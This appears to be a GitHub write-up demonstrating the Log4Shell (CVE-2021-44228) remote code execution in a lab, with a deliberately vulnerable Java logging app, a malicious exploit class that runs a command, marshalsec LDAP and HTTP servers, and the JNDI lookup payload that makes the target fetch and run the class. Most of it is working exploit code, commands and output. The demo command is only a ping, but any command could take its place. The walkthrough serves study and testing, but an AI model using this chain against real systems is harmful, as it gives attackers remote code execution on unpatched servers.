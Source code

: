 Thanks for : 

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

https://github.com/mbechler/marshalsec

Okay flow is simple:

When we sent a input to any application, they logs some request for later analysis. apache log4j library used for logging these inputs. We will send a payload and execute codes from apache log4j library during logging

I tested on "apache-log4j-2.13.0"

first i will create a java vulnerable application. Basicly it gets an input and use that input inside of "logger.error" function

	package log4j;
	import java.util.*;  

	import org.apache.logging.log4j.LogManager;
	import org.apache.logging.log4j.Logger;

	public class main {

		private static final Logger logger = LogManager.getLogger(main.class);
		public static void main(String[] args) {
			Scanner sc= new Scanner(System.in); //System.in is a standard input stream  
			System.out.print("Enter a string: ");  
			String str= sc.nextLine();              //reads string  
			System.out.print("You have entered: "+str);
			logger.error(str);
		}

	}
	
i will craft a special "exploit.java" file for code execution, for test we will make payload to ping somewhere

	└─$ cat exploit.java
	public class exploit {
			static {
					try {
							Runtime.getRuntime().exec("cmd.exe /c ping 192.168.200.101");
					} catch (Exception e) {
							e.printStackTrace();
					}
			}
	}         


Start tcpdump and filter for icmp package

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                  
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

convert "exploit.java" file to "exploit.class" file

	javac exploit.java
	
Now start a simple http server inside of directory

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...


We will start a LDAP server, first java application will reach ldap server and this ldap server will redirect request to HTTP server (192.168.200.101)

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	
We will start vulnerable application and sent a payload like: (ip adress is ldap server ip)

	${jndi:ldap://192.168.200.101:1389/exploit}
	
run test application and give input (we will get and error message but ignore it)

	Enter a string: ${jndi:ldap://192.168.200.101:1389/exploit}
	You have entered: ${jndi:ldap://192.168.200.101:1389/exploit}
	23:40:46.982 [main] ERROR log4j.main - ${jndi:ldap://192.168.200.101:1389/exploit}

first check ldap server, it redirects to our HTTP server

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	Send LDAP reference result for exploit redirecting to http://192.168.200.101/exploit.class


On HTTP server you can see GET request for payload

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...
	192.168.200.1 - - [12/Dec/2021 15:40:47] "GET /exploit.class HTTP/1.1" 200 -

Check tcpdump and see if there is any ping request

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
	15:43:24.801831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 256, length 40
	15:43:24.801917 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 256, length 40
	15:43:25.811859 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 257, length 40
	15:43:25.811904 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 257, length 40
	15:43:26.824831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 258, length 40
	15:43:26.824874 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 258, length 40
	15:43:27.836873 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 259, length 40
	15:43:27.836920 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 259, length 40
